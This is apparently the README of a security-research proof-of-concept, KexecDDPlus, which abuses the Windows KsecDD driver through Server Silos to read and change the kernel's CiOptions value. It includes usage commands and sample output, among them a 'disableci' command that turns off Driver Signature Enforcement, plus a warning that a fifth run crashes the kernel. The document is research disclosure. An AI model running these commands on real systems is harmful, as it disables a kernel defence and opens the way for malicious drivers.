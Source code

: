 # KexecDDPlus

This proof-of-concept is the result of a research project that aimed at extending the work of [@floesen_](https://x.com/floesen_) on the KsecDD Windows driver.

It relies on Server Silos to access the KsecDD driver directly, without having to inject code into LSASS. This capability therefore allows it to operate even on systems on which LSA Protection is enabled.

For more information, please check out our blog post [Exploiting KsecDD through Server Silos](https://blog.scrt.ch/2024/11/11/exploiting-ksecdd-through-server-silos/), and the links in the [Credits](#credits) section.

**Tested on:**

- Windows 11 23H2 (OS Build 22631.4317)
- Windows 11 23H2 (OS Build 22631.3380)
- Windows 10 22H2 (OS Build 19045.5011)
- Windows 10 22H2 (OS Build 19045.4894)

## Disclaimer

> [!CAUTION]
> This PoC can only be executed **4 times**, before crashing the kernel!

Due to the way the IOCTL `IOCTL_KSEC_IPC_SET_FUNCTION_RETURN` is handled by the KsecDD driver, this PoC can only be used 4 times. At the 5th execution, the driver will attempt to free the user-supplied buffer as if it were allocated in a kernel pool. This operation is invalid, and therefore will cause a Bug Check, *a.k.a.* a Blue Screen. To run the exploit again, without crashing the kernel, a machine reboot will be required.

## Usage

```console
C:\Temp>KexecDDPlus.exe

 Usage:
     KexecDDPlus.exe <CMD> [<ARGS>]

 Query the CI options value:
     KexecDDPlus.exe queryci
 Set the CI options value to 0:
     KexecDDPlus.exe disableci
 Set the CI options value:
     KexecDDPlus.exe setci <VALUE>
```

**Query the CI options value**

```console
C:\Temp>KexecDDPlus.exe queryci
[+] Silo created and initialized (path is \Silos\764).
[+] Process forked (child pid is 2740).
[+] Connected to child process!
[+] Query CiOptions request OK, current value is: 0x00000006
All done.
```

**Disable Driver Signature Enforcement (DSE) - Set CI options to 0**

```console
C:\Temp>KexecDDPlus.exe disableci
[+] Silo created and initialized (path is \Silos\768).
[+] Process forked (child pid is 5396).
[+] Connected to child process!
[+] Disable CI request OK
All done.
```

**Set the value of CI options**

```console
C:\Temp>KexecDDPlus.exe setci 6
[+] Silo created and initialized (path is \Silos\772).
[+] Process forked (child pid is 9012).
[+] Connected to child process!
[+] Set CiOptions request OK
All done.
```

## Authors

- Clément Labro
    - Mastodon: [https://infosec.exchange/@itm4n](https://infosec.exchange/@itm4n)
    - GitHub: [https://github.com/itm4n](https://github.com/itm4n)
- Romain Melchiorre
    - Twitter/X: [https://x.com/PMa1n](https://x.com/PMa1n)
    - Mastodon: [https://infosec.exchange/@pmain](https://infosec.exchange/@pmain)
    - GitHub: [https://github.com/PMain](https://github.com/PMain)

## Credits

- [@floesen_](https://x.com/floesen_) - [KExecDD](https://github.com/floesen/KExecDD)
- Claudio Contin - [LSASS rings KsecDD ext. 0](https://tierzerosecurity.co.nz/2024/04/29/kexecdd.html)
- James Forshaw ([@tiraniddo](https://infosec.exchange/@tiraniddo)) - [NtObjectManager](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)
- Lucas Di Martino - [Reversing Windows Container, episode I: Silo](https://blog.quarkslab.com/reversing-windows-container-episode-i-silo.html)
- Lucas Di Martino - [Reversing Windows Container, episode II: Silo to Server Silo](https://blog.quarkslab.com/reversing-windows-container-part-ii-silo-to-server-silo.html)
- Axel Souchet ([@0vercl0k](https://twitter.com/0vercl0k)) - [rp++](https://github.com/0vercl0k/rp)
